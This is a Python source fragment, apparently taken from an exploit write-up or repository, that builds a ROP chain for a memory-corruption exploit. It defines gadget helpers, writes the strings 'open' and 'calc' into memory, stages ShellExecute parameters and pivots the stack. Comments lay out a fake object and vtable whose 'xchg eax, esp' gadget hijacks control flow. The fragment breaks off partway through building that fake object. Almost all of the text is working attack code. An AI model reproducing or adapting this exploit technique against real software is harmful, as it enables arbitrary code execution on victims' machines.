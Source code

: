 ```py
def write_deref(addr, to_deref):
    rop = u''
    rop += to_unicode(GADGET_POP_EAX)
    rop += to_unicode(to_deref)
    rop += to_unicode(GADGET_MOV_EAX_EAX)
    rop += to_unicode(GADGET_POP_EDI)
    rop += to_unicode(addr)
    rop += to_unicode(GADGET_XCHG_EAX_EDI)
    rop += to_unicode(GADGET_MOV_EAX_EDI)
    return rop

def write_zero(addr):
    rop = u''
    rop += to_unicode(GADGET_XOR_EAX_EAX)
    rop += to_unicode(GADGET_POP_EDI)
    rop += to_unicode(addr)
    rop += to_unicode(GADGET_XCHG_EAX_EDI)
    rop += to_unicode(GADGET_MOV_EAX_EDI)
    return rop

def stack_pivot(addr):
    rop = u''
    rop += to_unicode(GADGET_POP_ESP)
    rop += to_unicode(addr)
    return rop

rop = ''

open_str_addr = FAKE_OBJ + 400
rop += write(open_str_addr, u32('open'))

calc_str_addr = FAKE_OBJ + 420
rop += write(calc_str_addr, u32('calc'))

# Move stack somewhere where it can safely not overwrite our fake object as functions are called
params_addr = FAKE_OBJ + 1000000
rop += write_deref(params_addr, SHELL_EXECUTE_ADDR)
rop += write(params_addr + 4, 0x41414141)
rop += write_zero(params_addr + 8)
rop += write(params_addr + 12, open_str_addr)
rop += write(params_addr + 16, calc_str_addr)
rop += write_zero(params_addr + 20)
rop += write_zero(params_addr + 24)
rop += write_zero(params_addr + 28)
rop += stack_pivot(params_addr)

# Fake object structure
#  0 - pointer to actual object (#1)
#  1 - pointer to vtable        (#2)
#  2 - pointer to `pop esp`           <-- start of vtable, and where eax will be pointing once #9 is called
#  3 - pointer to full stack    (#10) <-- This will move the stack to somewhere where we have more room 
#  4 - junk
#  5 - junk
#  6 - junk
#  7 - junk
#  8 - junk
#  9 - ptr to `xchg eax, esp`         <-- address that is initially jumped to, will set esp to #2 so we can pivot stack & begin ROP chain
# 10 - stack                          <-- where our ROP chain begins
fakeobj = u''
fakeobj += '--'
```